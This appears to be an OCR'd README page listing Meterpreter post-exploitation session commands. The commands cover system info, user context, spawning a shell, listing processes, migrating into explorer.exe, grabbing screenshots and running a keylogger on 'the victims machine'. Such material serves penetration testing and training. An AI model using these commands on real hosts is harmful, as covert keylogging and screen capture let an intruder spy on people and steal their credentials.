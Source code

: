 ## Usefull Session Commands
The following commands are meant to be executed inside an active session.

### systeminfo
To get basic info about the victims machine use:
```bash
sysinfo
```

### user
To check the user context use:
```bash
getuid
```

### cmd shell
Open a cmd shell:
```bash
shell
```

### running processes
List running processes
```bash
ps
#you can use grep to search for a specific process
ps | grep explorer
```
For some commands you need to be injected in the right process like 
for taking screenshots you need to be in explorer.exe

### process migration
```bash
migrate <pid>
```

### screenshot
Grab a screenshot:
```bash
use espia
screengrab
```

### keylogger
Grab key strokes:
```bash
#start collecting
keyscan_start

#dump collected results
keyscan_dump
```
